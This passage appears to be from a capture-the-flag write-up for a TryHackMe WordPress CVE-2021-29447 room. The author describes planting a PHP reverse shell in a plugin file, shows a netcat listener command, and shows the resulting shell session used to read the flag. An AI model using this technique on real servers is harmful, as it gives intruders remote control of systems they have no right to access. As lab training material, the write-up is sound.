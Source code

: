 ![image.png](assets/Wordpress_CVE-2021-29447/image%203.png)

then, I proceeded to deactivate that plugin and attempted to edit one of the php files with my custom PHP reverse shell code. By doing so, I aimed to establish a reverse shell on the system, granting me remote access and control.

```jsx
┌──(shohan㉿kali)-[~/Tryhackmy_rooms/Wordpress:CVE-2021-29447]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.17.44.22] from (UNKNOWN) [10.201.61.87] 42472
Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 16:07:05 up 6 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home
$ ls
stux
$ cd stux
$ ls
flag
$ ls -la
total 44
drwxr-xr-x 5 stux stux 4096 May 26  2021 .
drwxr-xr-x 3 root root 4096 May 26  2021 ..
-rw------- 1 root root 3359 May 26  2021 .bash_history
-rw-r--r-- 1 stux stux  220 May 26  2021 .bash_logout
-rw-r--r-- 1 stux stux 3771 May 26  2021 .bashrc
drwx------ 2 stux stux 4096 May 26  2021 .cache
-rw------- 1 stux stux  131 May 26  2021 .mysql_history
drwxrwxr-x 2 stux stux 4096 May 26  2021 .nano
-rw-r--r-- 1 stux stux  655 May 26  2021 .profile
-rw-r--r-- 1 stux stux    0 May 26  2021 .sudo_as_admin_successful
-rw-r--r-- 1 root root  183 May 26  2021 .wget-hsts
drwxrwxr-x 2 stux stux 4096 May 26  2021 flag
$ cd flag
$ ls
flag.txt
$ cat flag.txt
thm{REDACTED}
```